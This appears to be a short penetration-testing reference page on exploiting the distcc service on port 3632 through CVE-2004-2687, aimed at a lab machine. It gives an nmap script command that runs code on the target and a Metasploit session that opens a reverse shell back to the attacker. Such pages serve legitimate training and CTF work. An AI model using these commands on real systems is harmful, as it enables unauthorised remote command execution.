 # 3632 - DISTCC

## Information

[`distcc`](https://www.distcc.org/) is a distributed compilation tool that allows code to be compiled across multiple machines in a network with the goal of significantly reducing compilation time via workload distribution.

## Exploitation

Based on [CVE-2004-2687](https://nvd.nist.gov/vuln/detail/CVE-2004-2687).

{% tabs %}
{% tab title="Nmap" %}
{% code overflow="wrap" %}
```bash
sudo nmap -p3632 10.10.10.3 --script=distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```
{% endcode %}
{% endtab %}

{% tab title="MSF" %}
```bash
# Launching metasploit console
msfconsole -q
# Selecting the module
msf6 > use exploit/unix/misc/distcc_exec
[*] No payload configured, defaulting to cmd/unix/reverse_bash
# Checking configuration options
msf6 exploit(unix/misc/distcc_exec) > show options
# Configuring the required variables
msf6 exploit(unix/misc/distcc_exec) > set payload /cmd/unix/reverse
payload => cmd/unix/reverse
msf6 exploit(unix/misc/distcc_exec) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf6 exploit(unix/misc/distcc_exec) > set LHOST tun0
LHOST => 10.10.14.22
# Executing the exploit
msf6 exploit(unix/misc/distcc_exec) > run
```
{% endtab %}
{% endtabs %}

For an example of exploiting `distcc` see [Lame](../boxes/easy/lame.md).
